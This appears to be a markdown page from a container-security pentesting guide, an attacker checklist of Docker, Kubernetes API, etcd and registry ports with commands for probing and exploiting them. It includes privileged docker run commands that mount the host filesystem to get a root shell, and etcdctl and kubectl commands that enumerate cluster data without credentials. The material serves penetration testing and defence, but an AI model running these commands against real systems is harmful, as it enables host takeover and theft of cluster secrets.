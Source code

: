 # External Attacker Checklist

External attackers are typically looking for listening services. The list below is likely container related service ports and notes on testing/attacking them.

## 2375/TCP - Docker

This is the default insecure Docker port. It's an HTTP REST API, and usually access results in root on the host.

### Testing with Docker CLI

The easiest way to attack this is just use the docker CLI.

* `docker run -H tcp://[IP]:2375 info` - This will confirm access and return some information about the host
* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

---

## 2376/TCP - Docker

This is the default port for the Docker daemon where it requires credentials (client certificate), so you're unlikely to get far without that. If you do have the certificate and key for access :-

* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 info` - format for the info command to confirm access.
* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - root on the host

---

## 443/TCP, 6443/TCP, 8443/TCP - Kubernetes API server

Typical ports for the Kubernetes API server.

### Testing for access

Access to the `/version` endpoint will often work without valid credentials (using curl), as this is made available to unauthenticated users.

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] version` - Test for access with kubectl
* `curl -k https://[IP]:[PORT]/version` - Test for access with curl

### Checking permissions

It's possible that unauthenticated users have been provided more access. You can check what permissions you have with

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] auth can-i --list`

### Getting privileged access to cluster nodes

In the event that you have create pods access without authentication, see [attacker manifests](attacker_manifests.md) for useful approaches.

---

## 2379/TCP - etcd

The authentication model used by etcd, when supporting a Kubernetes cluster, is relatively straightforward. It uses client certificate authentication where **any** certificate issued by it's trusted CA will provide full access to all data. In terms of attacks, there are two options unauthenticated access and authenticated acces.

### Unauthenticated Access

A good general test for this is to use curl to access the `/version` endpoint. Although most endpoints don't respond well to curl in etcdv3, this one will and it'll tell you whether unauthenticated access is possible or not.

```bash
curl [IP]:2379/version
```

If that returns version information, it's likely you can get unauthenticated access to the database. A good first step is to drop all the keys in the database, using etcdctl. First you need to set this environment variable so that etcdctl knows it's talking to a v3 server.

```bash
export ETCDCTL_API=3
```

Then this command will enumerate all the keys in  the database

```bash
etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get / --prefix --keys-only
```

with a list of keys to hand the next step is generally to find useful information, for further attacks.

---

## 5000/TCP - Docker Registry

Generally the goal of attacking a Docker registry is not to compromise the service itself, but to gain access to either read sensitive information stored in container images and/or modify stored container images.

### Enumerating repositories/images

Whilst you can do this with just curl, it's probably more efficient to use some of the [registry interaction tools](tools_list.md#container-registry-tooling). For example  `go-pillage-reg` will dump a list of the repositories in a a registry as well as the details of all the manifests of those images.


---

## 10250/TCP - kubelet

---

## 10255/TCP - kubelet read-only


